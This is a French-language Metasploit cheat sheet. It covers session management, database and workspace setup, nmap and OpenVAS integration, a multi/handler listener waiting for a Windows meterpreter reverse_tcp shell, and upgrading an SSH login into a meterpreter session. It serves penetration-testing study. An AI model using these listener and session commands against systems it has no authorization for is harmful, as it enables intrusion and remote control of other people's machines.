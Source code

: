 metasploit
==========

## Commandes de base
### Gestion sessions
Pour lister les sessions en cours :
```
msf> sessions -l
```

Pour basculer sur une session existante :
```
msf> sessions -i <id_session>
```

Pour passer une session en arrière plan :
```
meterpreter> background
```

### Listener
Lancer un listener en attente d'un reverse tcp meterpreter windows :
```
msf> use multi/handler
msf> set payload windows/meterpreter/reverse_tcp
msf> set LHOST <ip_kali>
msf> set LPORT <port_ecoute>
msf> exploit -j
```

## Base de données
On va travailler avec *PostgreSQL* qui est la base de données par défaut dans *metasploit*.

### La première fois
Il faut d'abord lancer *PostgreSQL* puis initialiser la base de données pour *metasploit* :
```
# systemctl start postgresql
# msfdb init
```

Cela crée une base de données `msf` et un utilisateur `msf`.
Au démarrage de `msfconsole`, *metasploit* se connectera automatiquement à cette base de données.
On peut vérifier qu'on est bien connecté :
```
msf> db_status
```

### Workspaces
On peut ensuite travailler avec des *workspaces* pour ranger ses différents scans.

Pour lister les *workspaces* disponibles :
```
msf> workspace
```

Pour sélectionner un *workspace* :
```
msf> workspace <workspace_name>
```

Pour créer un *workspace*, on utilise l'option `-a` et pour supprimer un *workspace* `-d`.
Plus d'information avec l'option `-h`.

### Importation de données
Pour importer des données dans la base :
```
msf> db_import <filename_to_import>
```

Pour faire un scan `nmap` et importer directement les résultats :
```
msf> db_nmap <...classical_nmap_options...>
```

### Lire des données
Pour voir les services scannés :
```
msf> services
```

Pour voir les hôtes scannés :
```
msf> hosts
```

On peut ajouter des éléments à afficher :
```
msf> hosts -c address,os_flavor,svcs,vulns
```

Pour voir les vulnérabilités trouvées :
```
msf> vulns
```

## OpenVAS dans Metasploit
Lancer d'abord une instance `OpenVAS`. Par défaut, l'interface web écoute sur le port 9392 et le scanner sur le port 9390.

Pour lancer le plugin `OpenVAS` dans `metasploit` :
```
msf> load openvas
```

On se connecte à l'instance `OpenVAS` :
```
msf> openvas_connect <login> <password> 127.0.0.1 9390 ok
```

Pour lister les targets disponibles :
```
msf> openvas_target_list
```

Pour créer une nouvelle target :
```
msf> openvas_target_create <name> <ip> <comment>
```

Pour lister les configurations de scan possibles :
```
msf> openvas_config_list
```

Pour créer une task :
```
msf> openvas_task_create <name> <comment> <config_id> <target_id>
```

Pour lister les tasks :
```
msf> openvas_task_list
```

Pour lancer un scan :
```
msf> openvas_task_start <id>
```

Pour lister les rapports disponibles :
```
msf> openvas_report_list
```

Pour afficher les différents types de rapport disponibles :
```
msf> openvas_format_list
```

Pour télécharger un rapport :
```
msf> openvas_report_download <report_id> <format_id> <path> <report_name>
```

Pour importer un rapport dans metasploit :
```
msf> openvas_report_import <report_id> <format_id>
```

## Meterpreter
### Ouvrir un shell meterpreter à partir d'une connexion ssh
On peut utiliser le module `ssh_login` :
```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > set RHOSTS 10.10.10.10
msf auxiliary(ssh_login) > set USERNAME foo
msf auxiliary(ssh_login) > set PASSWORD bar
msf auxiliary(ssh_login) > exploit
msf auxiliary(ssh_login) > sessions -u 1
```

## Sources
* https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf
* https://www.ehacking.net/2011/11/how-to-use-openvas-in-metasploit.html
* https://www.offensive-security.com/metasploit-unleashed/using-databases/
